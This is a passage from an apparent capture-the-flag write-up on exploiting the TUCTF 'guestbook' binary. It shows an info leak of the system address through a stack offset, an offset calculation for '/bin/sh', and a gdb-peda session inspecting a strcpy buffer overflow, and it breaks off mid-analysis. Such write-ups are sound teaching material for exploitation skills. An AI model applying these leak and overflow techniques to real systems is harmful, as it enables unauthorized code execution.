  So in the are of memory that it looks for pointers, we can see that `system` is in there which is nice. However keep in mind that `puts` looks for a pointer, which luckily  at the offset `24` we see that there is a pointer to the start of where the pointers are stored `0xffffd0fc`. Also between the start of the pointers and `system` there aren't any null bytes so we will leak the four pointers to the names, and the address of system. In order to leak this, we will need to input `6` since `6*4=24` which is the offset to the pointer.
 
 Also using the system address, we can calculate the address of `/bin/sh/`:

```
 >>> hex(0xf7f57a0f - 0xf7e33060)
'0x1249af'
```

Now that we have the infoleak, let's figure out how we need to execute the buffer overflow. We can do this using gdb:

```
gdb-peda$ b *main+0x1ca
Breakpoint 1 at 0x98c
gdb-peda$ r
Starting program: /Hackery/tuctf/guestbook/guestbook 
Please setup your guest book:
Name for guest: #0
>>>00000
Name for guest: #1
>>>11111
Name for guest: #2
>>>22222
Name for guest: #3
>>>3333
---------------------------
1: View name
2: Change name
3. Quit
>>2
Which entry do you want to change?
>>>0
Enter the name of the new guest.
>>>15935728

[----------------------------------registers-----------------------------------]
EAX: 0x56558008 ("00000")
EBX: 0x56557000 --> 0x1ef0 
ECX: 0xfbad2288 
EDX: 0xf7faf87c --> 0x0 
ESI: 0x1 
EDI: 0xf7fae000 --> 0x1b5db0 
EBP: 0xffffd128 --> 0x0 
ESP: 0xffffd090 ("15935728")
EIP: 0x5655598c (<main+458>:	lea    edx,[ebp-0x98])
EFLAGS: 0x296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x56555982 <main+448>:	add    esp,0x4
   0x56555985 <main+451>:	mov    eax,DWORD PTR [ebp-0x34]
   0x56555988 <main+454>:	mov    eax,DWORD PTR [ebp+eax*4-0x2c]
=> 0x5655598c <main+458>:	lea    edx,[ebp-0x98]
   0x56555992 <main+464>:	push   edx
   0x56555993 <main+465>:	push   eax
   0x56555994 <main+466>:	call   0x56555570 <strcpy@plt>
   0x56555999 <main+471>:	add    esp,0x8
[------------------------------------stack-------------------------------------]
0000| 0xffffd090 ("15935728")
0004| 0xffffd094 ("5728")
0008| 0xffffd098 --> 0xf7fe2900 (dec    DWORD PTR [edi])
0012| 0xffffd09c --> 0xf7ffdc08 --> 0xf7fd7000 (jg     0xf7fd7047)
```